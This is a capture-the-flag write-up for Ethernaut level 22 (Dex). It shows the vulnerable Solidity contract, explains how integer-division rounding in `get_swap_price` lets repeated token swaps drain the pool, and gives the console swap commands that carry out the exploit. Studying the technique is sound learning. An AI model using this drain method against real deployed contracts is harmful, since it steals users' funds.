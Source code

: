 # Level 22: Dex

This is the level 22 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [ERC20 Token Standard](https://eips.ethereum.org/EIPS/eip-20)
- Solidity [division operation](https://docs.soliditylang.org/en/v0.8.11/types.html#division)

## Hack

Given contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

`player` has to drain all of at least one of the two tokens - `token1` and `token2` from the contract.

The vulnerability originates from `get_swap_price` method which determines the exchange rate between tokens in the Dex. The division in it won't always calculate to a perfect integer, but a fraction. And there is no fraction types in Solidity. Instead, _division rounds towards zero._ according to docs. For example, `3 / 2 = 1` in solidity.

We're going to swap all of our `token1` for `token2`. Then swap all our `token2` to obtain `token1`, then swap all our `token1` for `token2` and so on.

Here's how the price history & balances would go. Initially,
```
      DEX       |      player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10               
```


After swapping all of `token1`:
```
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20                
```

Note that at this point exchange rate is adjusted. Now, exchanging 20 `token2` should give `20 * 110 / 90 = 24.44..`. But since division results in integer we get 24 `token2`. Price adjusts again. Swap again.
```
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
```

Notice that on each swap we get more of `token1` or `token2` than held before previous swap. This is due to the inaccuracy of price calculation in `get_swap_price` method.

Keep swapping and we'll get:
```
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   
```

Now, at the last swap above we've gotten hold of 65 `token2`, which is more than enough to drain all of 110 `token1`! By simple calculation, only 45 of `token2` is required to get all 110 of `token1`.

```
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   
  0       90    |   110     20
```

Jump into console. First approve the contract to transfer your tokens with a big enough allowance so that we don't have to approve again & again. Allowance of 500 should be more than enough:
```javascript
await contract.approve(contract.address, 500)
```
Get token addresses:
```javascript
t1 = await contract.token1()
t2 = await contract.token2()
```

Now perform 7 swaps corresponding to the table rows above one by one:
```javascript
await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
```

`token1` is drained! Verify by:
```javascript
await contract.balanceOf(t1, instance).then(v => v.toString())

// Output: '0'
```
This is it!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
